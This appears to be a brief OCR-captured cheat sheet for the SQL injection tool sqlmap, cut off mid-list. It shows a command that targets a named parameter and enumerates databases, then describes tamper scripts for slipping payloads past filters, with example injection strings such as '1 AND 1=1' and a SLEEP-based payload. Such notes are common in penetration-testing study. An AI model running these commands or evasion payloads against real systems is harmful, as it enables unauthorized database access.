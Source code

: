 # Flags
To target parameters

```bash
sqlmap -r req.txt -p 'total_service' --threads 9 --batch --dbs
```

## Tamper scripts
```bash
sqlmap -r request --tamper=apostrophemask
```

Here lists of sqlmap Tamper scripts with with explanation
apostrophemask.py

Function: Encoding quotation marks with utf8

Platform: All

    example

1 AND ‘1’=’1 ==> 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871
apostrophenullencode.py

Function: ‘ ==> %00%27

Platform: All

    example

1 AND ‘1’=’1 ==> 1 AND %00%271%00%27=%00%271
appendnullbyte.py

Function: Space ==> %00

Platform: Microsoft Access

    example

1 AND 1=1 ==> 1 AND 1=1%00
base64encode.py

Function: base64 encode

Platform: All

    example

1' AND SLEEP(5)# ==> MScgQU5EIFNMRUVQKDUpIw==
between.py

Function: > ==> NOT BETWEEN 0 AND

Platform: Mssql2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0

    example

1 AND A > B — ==> 1 AND A NOT BETWEEN 0 AND B — ```、```1 AND A = B — ==> 1 AND A BETWEEN B AND B —
bluecoat.py
